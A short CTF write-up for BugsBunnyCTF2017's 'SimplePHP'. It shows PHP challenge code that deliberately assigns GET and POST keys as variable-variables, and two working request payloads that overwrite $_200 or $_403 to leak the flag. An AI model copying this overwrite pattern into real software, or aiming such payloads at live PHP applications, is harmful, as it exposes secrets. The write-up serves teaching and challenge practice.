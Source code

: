 # Challenge
```php 
<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
	die($_403);
foreach ($_GET as $key => $value)
	$$key = $$value;
foreach ($_POST as $key => $value)
	$$key = $value;
if ( $_POST["flag"] !== $flag )
	die($_403);
echo "This is your flag : ". $flag . "\n";
die($_200);
?>
```

# Solution 
有很明显的变量覆盖漏洞。要求我们在post语句中有flag，同时在第二个foreach中有把`$flag`直接覆盖了，所以直接通过echo语句输出的flag是被修改过的。接着看看有什么输出点，比如有个`die($_200)`，结合第一个foreach的功能，我们可以在第二个foreach之前先将`$_200`的值覆盖为原flag的值。

payload:
```
http://34.253.165.46/SimplePhp/index.php?_200=flag
POST:
flag=1
```

payload2:
```
http://34.253.165.46/SimplePhp/index.php?_403=flag&_POST=1
POST:
flag=
```

# Refference
+ BugsBunnyCTF2017 : SimplePHP
+ [chybeta : SimplePHP](https://chybeta.github.io/2017/07/30/BugsBunnyCTF2017-web-writeup/#SimplePHP)